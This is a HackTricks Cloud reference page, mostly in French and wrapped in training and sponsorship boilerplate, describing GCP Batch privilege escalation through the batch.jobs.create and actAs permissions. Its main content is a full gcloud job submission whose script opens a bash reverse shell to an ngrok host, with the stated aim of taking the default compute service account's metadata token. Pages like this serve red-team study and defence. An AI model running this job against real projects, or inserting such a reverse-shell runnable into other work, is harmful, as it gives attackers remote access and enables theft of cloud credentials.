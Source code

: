# GCP - Batch Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Batch

Informations de base :

{% content-ref url="../gcp-services/gcp-batch-enum.md" %}
[gcp-batch-enum.md](../gcp-services/gcp-batch-enum.md)
{% endcontent-ref %}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

Il est possible de créer un job batch, d'obtenir un shell inversé et d'exfiltrer le token de métadonnées du SA (SA de calcul par défaut).
```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
"name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
"taskGroups": [
{
"taskCount": "1",
"parallelism": "1",
"taskSpec": {
"computeResource": {
"cpuMilli": "1000",
"memoryMib": "512"
},
"runnables": [
{
"script": {
"text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
}
}
],
"volumes": []
}
}
],
"allocationPolicy": {
"instances": [
{
"policy": {
"provisioningModel": "STANDARD",
"machineType": "e2-micro"
}
}
]
},
"logsPolicy": {
"destination": "CLOUD_LOGGING"
}
}
EOD
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
